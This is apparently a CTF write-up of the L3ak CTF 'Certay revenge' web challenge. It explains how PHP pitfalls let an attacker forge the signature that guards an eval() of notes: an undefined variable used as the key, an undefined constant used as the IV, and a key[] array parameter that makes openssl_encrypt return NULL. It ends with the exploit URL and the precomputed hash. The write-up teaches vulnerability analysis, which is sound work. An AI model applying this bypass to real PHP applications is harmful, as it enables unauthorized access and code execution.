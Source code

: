 ```yaml
---
title:  "Certay revenge Web Challenge - From L3ak CTF"
description: Web challenge from L3ak CTF, a simple note-taking system with user authentication, where the goal is to bypass the required hash using PHP language pitfalls.
image: 
  path: /assets/img/blog/blackhat/wolv_black_hat.jpg
tags: [ctf, web, php, AES, pitfalls]
date:   2025-07-15 13:49:56 +0300
categories: [CTFs]
---
```

**Last Modified: 2025-07-14 06:51**

> Probably you need to understand our language to get some of the super powers?

The challenge mainly is about spotting pitfalls of PHP to be able to bypass bypass the required hash.

The web application is a simple note-taking system with user authentication:

1. **User Registration/Login**: Users can register and login via register.php and login.php
2. **Session Management**: PHP sessions track logged-in users with `$_SESSION['user_id']`
3. **Note Storage**: Users can store private notes via post_note.php
4. **Dashboard Access**: dashboard.php displays notes after signature verification

### Normal Authentication Flow
```php
<?php
// Login creates session
$_SESSION['user_id'] = $user_id;
$_SESSION['yek'] = openssl_random_pseudo_bytes(16); // 16-byte session key

// Dashboard requires both session AND signature verification
if (!isset($_SESSION['user_id'])) {
    header('Location: login.php');
    exit;
}

// Additional signature check for sensitive operations
if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
    // Execute stored notes via eval()
}
```

### Encryption Implementation
#### Encryption Functions
```
<?php
function safe_sign($data) {
    return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
}

function custom_sign($data, $key, $vi) {
    return openssl_encrypt($data, 'aes-256-cbc', $key, 0, $vi);
}
```
#### Signature Verification Logic
```
<?php
if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
    // Authentication successful - execute user notes
    eval($content);
}
```
**How it's supposed to work:**

1. `safe_sign($_GET['key'])` encrypts user input with server's secret `KEY`
2. Result becomes IV for `custom_sign()`
3. `custom_sign()` encrypts `$_GET['msg']` using session key `$yek`
4. Final result must match `$_GET['hash']`

The app takes three parameters and do that :
![alt text](<../assets/img/blog/attachments-certay/Pasted image 20250716130912.png>)


## Exploit Chain
### PHP Language Pitfalls Exploited
#### Undefined Constant Behavior
```php
<?php
define('yek', $_SESSION['yek']);

// Later in code:
custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']
```

**Pitfall**: `$yek` (variable) vs `yek` (constant)

- **Expected**: `$yek` should reference the constant `yek`
- **Reality**: `$yek` is an undefined variable, defaults to `null`, if you want to use the defined value you should use `yek` instead of `$yek`
- **Impact**: Encryption key becomes empty string instead of 16-byte session key (as the second parameter to `custom_sign() is the encryption key.)

####  Undefined Constant String Conversion

```php

<?php
return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
```

**Pitfall**: `iv` constant is never defined

- **Expected**: `iv` should be a defined constant
- **Reality**: PHP converts undefined constant to string `"iv"`. so the `iv` will become literally "iv"
- **Impact**: IV becomes predictable 2-byte string instead of random 16 bytes
####  OpenSSL IV Padding Behavior (it's not a pitfall)

```
<?php
openssl_encrypt($data, 'aes-256-cbc', KEY, 0, "iv");
```
 AES-256-CBC requires exactly 16-byte IV

- **Input**: `"iv"` (2 bytes)
- **OpenSSL behavior**: Pads with null bytes to 16 bytes
- **Result**: `"iv\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"` (predictable)
#### 4. Array Parameter Handling
```php

<?php
  

if (isset($_GET['msg']) && isset($_GET['hash']) && isset($_GET['key'])) {

    if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
```

**Pitfall**: `openssl_encrypt()` expects string, receives array

- **Input**: `key[]` creates `$_GET['key'] = []` (empty array)
- **OpenSSL behavior**: Returns 

```
Warning: openssl_encrypt() expects parameter 1 to be string, array given in /home/user/scripts/code.php on line 7
NULL
```
![alt text](<../assets/img/blog/attachments-certay/Pasted image 20250716132852.png>)

- **Impact**: 
```
// URL: dashboard.php?key[]

// Creates: $_GET['key'] = []

// Results in: safe_sign([]) → NULL

// Then: custom_sign($_GET['msg'], $yek, NULL)
// yek is also empty, we showed that previously
```
*The Real Signature Check is* :
```
<?php
custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']
```
but with such behaviors it becomes:
```
<?php
custom_sign($_GET['msg'], null, NULL) === $_GET['hash']
``` 
which is :
```
<?php
openssl_encrypt($_GET['msg'], 'aes-256-cbc', '', 0, NULL) === $_GET['hash']
```
**How NULL is Handled as IV**

When `NULL` which is `$yek` is passed as the IV parameter:

- **PHP converts `NULL` to empty string `""`**
- **OpenSSL pads empty string to 16 bytes with null bytes**
- **Effective IV becomes 16 null bytes**
*To make sure of this behavior i created this test:*
```
<?php

// Test the actual behavior

$result1 = openssl_encrypt("test", 'aes-256-cbc', '', 0, NULL);

$result2 = openssl_encrypt("test", 'aes-256-cbc', '', 0, false);

$result3 = openssl_encrypt("test", 'aes-256-cbc', '', 0, "");

  

echo "NULL IV: " . $result1 . "\n";

echo "false IV: " . $result2 . "\n";

echo "empty string IV: " . $result3 . "\n";

?>

output :
NULL IV: 2HB5iFgiP0Vk00CxA/ZSew==

false IV: 2HB5iFgiP0Vk00CxA/ZSew==

empty string IV: 2HB5iFgiP0Vk00CxA/ZSew==
```

**So now all i need making these nested conditions returns true :
```php
if (isset($_GET['msg']) && isset($_GET['hash']) && isset($_GET['key'])) {

    if (custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash']) {
```

**All parameters now predictable:**

- **Message**: `$_GET['msg']` (user controlled)
- **$yek** : Empty
- **safe_sign($\_GET['key']))**: `''` (empty string from null, it's NULL because of `GET['key'` is set to `key[]` )

### Exploit

```
http://server/dashboard.php?msg=test&key[]=&hash=2HB5iFgiP0Vk00CxA%2FZSew%3D%3D
```

![Getting the Flag](<../assets/img/blog/attachments-certay/Screenshot 2025-07-14 161837.png>)
